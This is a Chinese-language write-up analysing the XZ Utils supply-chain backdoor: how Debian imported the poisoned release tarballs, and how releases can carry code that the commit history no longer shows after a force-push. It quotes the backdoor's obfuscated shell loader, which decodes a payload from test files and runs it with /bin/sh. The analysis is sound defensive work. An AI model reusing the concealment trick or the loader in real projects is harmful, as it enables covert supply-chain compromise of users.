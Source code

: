 1. Debian自己拉取的XZ仓库。

link: https://salsa.debian.org/debian/xz-utils/-/blob/debian/unstable/m4/build-to-host.m4?ref_type=heads#L63

如图是Debian Linux项目，其拉取了Xz项目作为子项目，书写本文时还可以看到漏洞版本的XZ。XZ原封不动的拿过来，会按照源项目的版本命名，直接给其同命名分支，如`v5.6.0`。如果为了集成需要，Debian会命名`v5.6.0-0.1`这样子的分支名。

![md11](md11.png)

2. XZ项目

确定Debian项目存在此后门后，进一步审计到软件供应链上游的XZ项目。发现github项目本身历史commit和漏洞版本的分支并没有后门，但是后门仅在漏洞版本的release的源代码压缩包。

后门版本的源代码没有后门，但是release有，其两个后门版本的link：

https://github.com/tukaani-project/xz/releases/tag/v5.6.0

https://github.com/tukaani-project/xz/releases/tag/v5.6.1
 
![md12](md12.png)

![md13](md13.png)

我看到此处时愣了一下，因为github发布release一般就是为了发布开发者自己编译的二进制文件，一般流程是：

    local打tag
    ->推送tag到远程分支
    ->指定tag发布release

此时release默认有源代码压缩包（如上图的zip和tar.gz默认就存在的两个格式的源代码压缩包），但是一般没想过release后把这个commit删除。

我自己测试了一下，其实在`release`之后，`git reset`到**之前commit**再`git push --force`就可以实现这个手法。**release包含后门**，但是我又让**源代码的commit回滚到没有后门的时候**。

    local打tag
    ->推送tag到远程分支
    ->指定tag发布release
    ->local git reset
    ->git push origin --force

这个细节非常实用，**release的默认源码压缩包没有任何git信息**，但是Debian那边的习惯又*只是看上游软件库的特定Tag和Release拿Tarball包*。攻击者摸清Debian集成上游代码的习惯，巧妙利用了release没有git信息很难发现的特性。

	Tarball：压缩包，基本指release默认的Tar.gz和Zip的源代码包。

以上就是投毒手法，发现者随后简单审计和列举了恶意代码运行机制，此处摘取一处代码混淆片段：

    tests/files/bad-3-corrupt_lzma2.xz
    tests/files/good-large_compressed.lzm
其中：

    export i="((head -c +1024 >/dev/null) && head -c +2048 && (head -c +1024 >/dev/null) && head -c +2048 && (head -c +1024 >/dev/null) && head -c +2048 && (head -c +1024 >/dev/null) && head -c +2048 && (head -c +1024 >/dev/null) && head -c +2048 && (head -c +1024 >/dev/null) && head -c +2048 && (head -c +1024 >/dev/null) && head -c +2048 && (head -c +1024 >/dev/null) && head -c +2048 && (head -c +1024 >/dev/null) && head -c +2048 && (head -c +1024 >/dev/null) && head -c +2048 && (head -c +1024 >/dev/null) && head -c +2048 && (head -c +1024 >/dev/null) && head -c +2048 && (head -c +1024 >/dev/null) && head -c +2048 && (head -c +1024 >/dev/null) && head -c +2048 && (head -c +1024 >/dev/null) && head -c +2048 && (head -c +1024 >/dev/null) && head -c +2048 && (head -c +1024 >/dev/null) && head -c +724)";(xz -dc $srcdir/tests/files/good-large_compressed.lzma|eval $i|tail -c +31265|tr "\5-\51\204-\377\52-\115\132-\203\0-\4\116-\131" "\0-\377")|xz -F raw --lzma1 -dc|/bin/sh
